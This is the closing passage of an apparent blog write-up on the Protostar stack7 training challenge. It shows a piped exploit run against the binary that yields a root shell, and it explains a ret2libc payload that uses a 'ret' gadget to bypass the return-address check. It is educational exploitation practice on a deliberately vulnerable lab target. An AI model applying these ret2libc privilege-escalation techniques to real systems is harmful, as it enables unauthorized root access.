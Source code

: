 ```
    print payload

build()
```

Well, okay. The biggest thing I learnt here... is I need to follow my gut instinct and not second guess myself. Check out the following output:

```
$ (python /tmp/stack7b.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAAAAAAAAAAAD����`췿c��
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

I was literally able to take my ret2libc payload, change the EIP overwrite to be a 'ret' gadget and just return into my original payload, bypassing the tighter restriction and popping my root shell before cleanly exiting with the exit() function.

That was awesome! If you have followed me along this journey of the Protostar stack challenges, I thank you. I hope you learnt something and enjoyed my derps along the way! Next up, String Format vulnerabilities :) 